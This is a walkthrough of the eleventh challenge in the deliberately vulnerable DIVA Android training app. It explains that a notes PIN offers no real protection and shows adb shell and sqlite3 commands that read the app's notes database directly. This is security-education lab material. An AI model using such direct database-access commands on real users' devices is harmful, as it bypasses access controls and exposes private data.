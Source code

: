 # Access Control Issues – Part 3

Next up is Task Eleven.  
Reviewing `MainActivity.class`, we see that it points to `AccessControl3Activity.class`.  
![Untitled](DIVA%20ScreenShots/Level%20-%2011%20(AccessControl3Activity).png)

In this case, we observe that a pin has been implemented for security purposes. However, since there are no encryption or decryption methods in place, the pin doesn't provide meaningful protection. Although the app requires the pin to access notes, you can easily bypass this safeguard using terminal commands.

To access the notes without knowing the pin, use the following terminal commands:
```bash
adb shell
cd /data/data/jakhar.aseem.diva/databases
sqlite3 divanotes.db
```

Then, execute these SQL commands:
```sql
.tables
select * from notes;
```
![Untitled](DIVA%20ScreenShots/Level%20-%2011%20(Terminal).jpg)
The image above demonstrates how to access the notes directly through the terminal, bypassing the need for the pin entirely.